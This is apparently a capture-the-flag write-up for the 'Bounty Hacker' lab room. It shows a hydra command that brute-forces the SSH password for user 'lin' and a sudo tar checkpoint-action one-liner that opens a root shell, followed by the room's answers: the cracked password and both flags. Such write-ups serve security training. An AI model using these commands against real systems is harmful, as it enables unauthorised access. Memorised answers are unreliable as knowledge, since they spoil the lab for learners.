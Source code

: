 # Bounty Hacker-SSH bruteforce&Sudo tar privilege escalation

```
export IP=10.10.243.10
```

# Material needed

1. Find password SSH for lin with hydra

```
hydra -l lin -P locks.txt -t 4 ssh
```

2. Privilege escalation

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

# Tasks

1. Who wrote the task list? lin

2. What service can you bruteforce with the text file found? ssh

3. What is the users password? RedDr4gonSynd1cat3

4. user.txt

```
THM{CR1M3_SyNd1C4T3}
``` 

5. root.txt

```
THM{80UN7Y_h4cK3r}
```